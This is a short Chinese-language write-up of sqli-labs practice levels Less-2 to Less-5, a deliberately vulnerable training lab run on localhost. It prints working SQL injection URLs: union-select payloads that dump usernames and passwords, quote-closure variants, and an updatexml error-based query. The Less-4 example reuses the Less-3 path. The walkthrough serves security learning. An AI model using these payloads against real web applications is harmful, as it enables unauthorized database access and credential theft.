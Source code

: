 

## Less-2

less2的参数类型为数字，和第一关的sql注入相似，此处就省略一些注入过程

**less2获取账号密码**：`http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and 1=2 union select 1,2,group_concat(username,password) from security.users --+`
![](sqli-labs/1779065-20210207223330335-1241697884.png)

***


## Less-3和Less-4

less3和less4的注入步骤和前面两关一致，只是改变了闭合符号。less3的闭合符号为`')`,less4的是`")`

**less3获取账号密码：**`http://127.0.0.1/sqli-labs-master/Less-3/?id=2') and 1=2 union select 1,2,group_concat(username,password) from security.users --+`

**less4获取账号密码：**`http://127.0.0.1/sqli-labs-master/Less-3/?id=2") and 1=2 union select 1,2,group_concat(username,password) from security.users --+`





## Less-5

直接采用报错注入,也可使用盲注入

**获取当前数据库**：`http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0) --+`

![](sqli-labs/1779065-20210208000604448-2011739803.png)
